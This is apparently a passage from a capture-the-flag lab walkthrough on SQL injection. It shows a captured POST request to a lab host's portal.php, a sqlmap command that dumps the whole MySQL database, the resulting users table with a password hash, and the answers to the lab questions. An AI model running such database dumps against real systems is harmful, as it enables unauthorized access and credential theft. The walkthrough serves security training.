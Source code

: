 **When you've logged in, what page do you get redirected to?**

- portal.php

## Task 3 - Using SQLMap 

- capture request to ``portal.php`` and copy to file to feed to SQLMap so we can have the authenitcated user session.

```shell
POST /portal.php HTTP/1.1
Host: 10.10.147.210
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://10.10.147.210
Connection: close
Referer: http://10.10.147.210/portal.php
Cookie: PHPSESSID=i6ngovs5ocoho38fkusrttnm23
Upgrade-Insecure-Requests: 1

searchitem=awesome
```

- ``sqlmap -r request.txt --dbms=mysql --dump``
- ``-r`` for request file
- ``--dbms=mysql`` database management system type
- ``-dump`` outputs the entire database or attemps to

##   Answer the questions below

**In the users table, what is the hashed password?**

- ``cat log``

```shell
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
````

**What was the username associated with the hashed password?**

- agent47

**What was the other table name?**

- post
